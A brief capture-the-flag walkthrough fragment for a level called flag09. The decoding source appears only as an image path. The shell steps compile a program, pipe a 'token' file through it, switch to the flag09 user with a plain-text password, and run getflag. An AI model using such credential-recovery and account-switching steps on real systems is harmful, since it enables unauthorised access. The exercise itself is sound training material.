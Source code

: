 vi /tmp/code.c

cd /tmp

gcc code.c -o binary

cd

cat token | xargs /tmp/binary

su flag09 ====] f3iji1ju5yuevaus41q1afiuq

getflag